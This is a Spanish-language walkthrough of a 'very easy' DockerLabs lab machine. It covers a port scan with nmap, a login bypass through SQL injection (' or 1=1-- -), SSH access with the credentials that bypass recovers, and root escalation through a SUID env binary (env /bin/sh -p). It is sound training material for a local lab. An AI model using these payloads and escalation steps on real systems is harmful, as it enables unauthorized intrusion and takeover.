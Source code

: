 # Máquina Injection
- Dificultad: muy fácil

# Comprobamos la conexión:
<p>Primero comprobaremos si tenemos conexión con la maquina Injection: </p>

```
ping -c 3 172.17.0.2
```
<p>Al realizar este comando enviará solo 3 paquetes ping a dirección ip designada (172.17.0.2) y luego terminará.</p>

## Escaneo con nmap
<p>Ahora haremos un escaneo de puertos con la herramienta nmap</p>

```

sudo nmap -p- -sS -sC --open -sV --min-rate=5000 -n -vvv -Pn 172.17.0.2 -oN /home/kali/Escritorio/dockerlabs_maquinas/maquinas_muy_faciles/maquina_injection_muyfacil/escaneo_maquina_inyection 

```
<p>Explicación de lo que estamos ejecutando en este comando:</p>


`-p-`

* Escanea **todos los 65535 puertos TCP**, no solo los comunes.


`-sS`

* Realiza un **escaneo SYN sigiloso.**


`-sC`

* Usa los **scripts por defecto** de Nmap, esto puede ayudar a obtener más información de servicios detectados (como banners, vulnerabilidades simples, etc.).


`--open`

* Muestra **solo puertos abiertos**.


`-sV`

* Detecta la **versión de los servicios** que corren en los puertos abiertos.


`--min-rate=5000`

* Fuerza una **velocidad mínima de 5000 paquetes por segundo**.


`-n`

* Desactiva la **resolución DNS**.


`-vvv`

* Modo **muy detallado** de salida (`-v` = verbose, `-vv` = más verboso, `-vvv` = máximo).


`-Pn`

* Le dice a Nmap que **no haga ping al host** antes de escanear.


`-oN <ruta>`

* Guarda la salida del escaneo en **la ruta que hayamos seleccionado ** en mi caso:  /home/kali/Escritorio/dockerlabs_maquinas/maquinas_muy_faciles/maquina_injection_muyfacil/escaneo_maquina_inyection.


```

Host is up, received arp-response (0.0000080s latency).
Scanned at 2025-05-15 21:58:36 EDT for 7s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ9UrfkzVjvriOVFwT9rOHz6XGJrVwKK/A6RMody6c0ovLNeCgaU6kCb+dGPPeXwCaio++IwxYm0SxRGYITrhr4=
|   256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJV4CYnqtqSQxWkpfq7xR8DG/nHJfLXDhtkyMHA5pLhO
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Iniciar Sesi\xC3\xB3n
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
<p>Podemos observar que el puerto 22 y el 80 están abiertos</p>

<p>colocamos la dirección ip 172.17.0.2 en el navegador, nos pidira que ingresemos el usuarios y la contraseña:</p>

imagen


<p>Probamos un ataque de inyeccionSQL</p>

```
 'or 1=1-- - 
```

imagen 

<p>Obtuvimos un usuario y contraseña:</p>

```
user : dylan
contraseña: KJSDFG789FGSDF78
```

Imagen 

<p>Probamos para conectarnos por SSH:</p>

```
ssh dylan@172.17.0.2
contraseña: KJSDFG789FGSDF78
```

# Escala de Privilegios
<p>Buscamos binarios con permisos SUID.</p>

```
find / -perm -4000 -user root 2>/dev/null
```
```
dylan@c890d134d17f:~$ find / -perm -4000 -user root 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/umount
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/mount
/usr/bin/env
/usr/bin/chsh
dylan@c890d134d17f:~$ 

```

<p>Aparece el binario /usr/bin/env asi, el binario env tiene permisos SUID, tiene una escalada de privilegios.</p>

```
./env /bin/sh -p
```

<p>Al ejecutarlo nos figura este error.</p>

```
-bash: ./env: No such file or directory
```

<p>Para solucionarlo, tenemos que ejecutarlo en el directorio /usr/bin .</p>

```
dylan@c890d134d17f:/usr/bin$ ./env /bin/sh -p
# whoami
root
```
